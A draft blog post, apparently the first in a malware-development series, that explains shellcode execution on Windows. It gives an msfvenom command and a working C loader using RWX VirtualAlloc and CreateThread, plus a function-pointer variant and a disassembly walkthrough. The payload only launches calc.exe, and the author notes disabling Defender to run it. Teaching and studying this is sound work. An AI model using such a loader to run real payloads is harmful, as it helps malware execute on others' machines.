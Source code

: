 +++
title = "Introduction to shellcode execution"
date = "2024-05-12T17:50:19+05:30"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["malware development", "reverse engineering"]
keywords = ["", ""]
description = "Part1: Introduction to malware development - shellcode execution"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
draft = true
+++

# Introduction
Hey, everyone in this short blog post I’m going to discuss about shellcode execution in windows environment. I know there are a lot of blogs about this topic available online, lately I started learning windows internals and malware development & exploitation on windows platform so I’m writing this blogs to document my process for my own future references. In this blog I’m not going to show any crazy EDR/Anti-virus or AMSI bypass techniques, rather I’m covering the foundational knowledge required to get started in malware development.

```
Disclaimer: 
Malware development is illegal. 
This blog post is for educational purposes only to understand how malware works. 
I am not responsible for any illegal activity resulting from the information provided.
```

In upcoming modules I’ll cover more advanced malware development concepts to bypass AV/EDR solutions. I’m planning to write it as a series of blog posts, so lets get started. If you are a red teamer, exploit developer, malware analyst or simply you want to understand how malware works, this blog post is for you.


# What is a shellcode?
Shellcode is a small piece of assembly code used to exploit a software vulnerability, malware also uses this shellcode to do malicious actions which can be connecting back to a C2, providing reverse shell to attacker or exploiting additional software vulnerabilities for higher privileges. In this blog post we’ll execute a simple calc shellcode which spawns calc.exe program.


I’m using metasploit to create shellcode. Using the below command we will generate the shellcode in a format that we can use it in our malware.

``` bash
msfvenom -p windows/x64/exec CMD='calc.exe' -f c
```

![shellcode generate](/img/intro_to_shellcode_exec/1.png)


I’ll be using C to write the malware, you can use the language which is suitable for you (go, .net, nim, etc).

# Method 1: Shellcode Execution as a Thread

```c
#include <iostream>
#include <Windows.h>

int main()
{
	LPVOID ptr_address;
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
		"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
		"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
		"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
		"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
		"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
		"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
		"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
		"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
		"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
		"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
		"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
		"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
		"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
		"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
		"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
		"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


	ptr_address = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(ptr_address, shellcode, sizeof(shellcode));
	CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ptr_address, NULL, 0, 0);
	getchar();
	return 0;
}
```

Lets breakdown the code. **ptr_address** is a PVOID data type in windows, which is basically void pointer equivalent to **void \*ptr_address**. Next our shellcode is declared as a variable named shellcode.


**VirtualAlloc** function allocates the requested memory space dynamically in calling process virtual memory which returns a pointer. **MEM_COMMIT | MEM_RESERVE** is used to reserve and commit pages in one step. Check MSDN documentation to learn more. 

**PAGE_EXECUTE_READWRITE** set’s the allocated memory pages permission to RWX, which is required to execute shellcode in memory, alternatively we can use VirtualProtect function to change the permission of the page. By default windows enables DEP (Data Execution Prevention) which prevents us from executing shellcode, so to bypass this restriction we are allocating the memory pages as RWX. 

**RtlMoveMemory** function moves the content of shellcode variable to newly allocated buffer. Basically it’s windows version of memcpy.  

 

**CreateThread** function starts a thread in calling process virtual memory. 3rd parameter to the function is the pointer to be executed. In our case the newly allocated buffer which holds our shellcode. 

Compile the above code using visual studio. Build the project and start executing it, it will spawn the calc.exe process. We can use this base template to test our shellcodes in upcoming blogs.

![shellcode execution](/img/intro_to_shellcode_exec/2.png)

# Method 2: as function pointer

```c
	ptr_address = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(ptr_address, shellcode, sizeof(shellcode));
	int (*fn_ptr)();
	fn_ptr = (int (*)()) (void*)ptr_address;
	(int) (*fn_ptr)();
```

We can execute shellcode as a function pointer as well, you might’ve seen similar code in shellcode tester programs, we are also doing the same. Using memcpy function copied the shellcode to newly allocated buffer. 

Then declaring a function pointer named **fn_ptr**. Then the allocated buffer is type casted to the function pointer type. After that we are executing the function **fn_ptr** indicates as a function pointer. Sounds little confusing right? so let’s look at the assembly equivalent of the program. 

*I’m Ghidra user but for this example I’m using IDA freeware to disassemble the binary*.

![shellcode reversing](/img/intro_to_shellcode_exec/3.png)

In the first block we can see a call to VirtualAlloc function, before the function call the required parameters for the function is placed in the appropriated registers (rcx, rdx, r8, r9), the return address stored in rax register is being moved into r8 register after the call to VirtualAlloc. Then in the next block a call is made to r8 register which is pointing to our shellcode. call is just an unconditional branch instruction so whatever is pointed by r8 register gets executed (In our case our shellcode). In between there is no changes in r8 register. 

In assembly it looks a lot simpler than C source code.


```
Note for this example I've disabled windows defender 
otherwise defender will detect it as malicious executable and removes it
```

# references
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
